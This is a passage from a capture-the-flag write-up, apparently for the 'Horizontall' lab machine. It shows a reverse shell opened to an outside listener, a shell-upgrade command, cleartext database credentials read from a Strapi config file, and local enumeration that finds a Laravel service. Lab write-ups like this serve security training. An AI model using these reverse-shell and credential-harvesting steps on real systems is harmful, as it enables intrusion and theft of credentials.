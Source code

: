 ```bash

Successfully opened reverse shell to 10.10.14.196:4444
```

We can now upgrade our shell by running `/usr/bin/script -qc /bin/bash /dev/null`.
The user flag can be found in `/home/developer`

## Priviledge escalation

In the folder `/opt/strapi/myapi/config/environments/development/` there is a file named `database.json` containing the credentials of the user developer

```json
strapi@horizontall:~/myapi/config/environments/development$ cat database.json
cat database*
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

However, looks like the MySQL database doesn't contain anything useful.
After running linpeas on this machine, we find out that there's a service running on the local port 8000.
By using curl http://localhost:8000 we find out that it's a Laravel v8 (PHP v7.4.18) instance.

```html
.
.
.
<div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
                            Laravel v8 (PHP v7.4.18)
                    </div>
                </div>
            </div>
        </div>
    </body>
</html>
```
